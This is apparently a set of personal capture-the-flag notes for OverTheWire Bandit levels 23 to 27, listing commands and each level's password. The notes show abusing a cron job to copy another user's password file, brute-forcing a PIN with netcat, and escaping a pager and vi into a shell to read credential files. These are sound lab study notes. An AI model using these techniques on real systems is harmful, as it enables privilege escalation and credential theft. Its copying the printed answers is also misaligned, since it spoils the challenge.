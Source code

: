 ## Level 23 -> 24
```
cd /etc/cron.d
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
touch /tmp/getpswd.sh 
vim /tmp/getpswd.sh
```
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/s8n.txt
```
```
chmod 777 /tmp/getpswd.sh
touch /tmp/s8n.txt
chmod 666 /tmp/s8n.txt
cp /tmp/getpswd.sh /var/spool/bandit24/foo
```
**wait**
```
cat /tmp/s8n.txt
```
<pass: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar>

## Level 24 -> 25
```
nano /tmp/getpswd.sh
```
```
#!/bin/bash

for i in {1000..9999}
do	       
	echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done
```
```
./getpswd.sh | nc localhost 30002
```
<pass: p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d>

## Level 25 -> 26 -> 27
```
cat /etc/passwd | grep bandit26
cat /usr/bin/showtext
```
**used more on a text.txt file
minimized the terminal**
```
ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220
v
:e /etc/bandit_pass/bandit26
```
<pass: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1>
```
:set shell=/bin/bash
:shell
*entered the shell of bandit26*
./bandit27-do cat /etc/bandit_pass/bandit27
```
<pass: YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS>
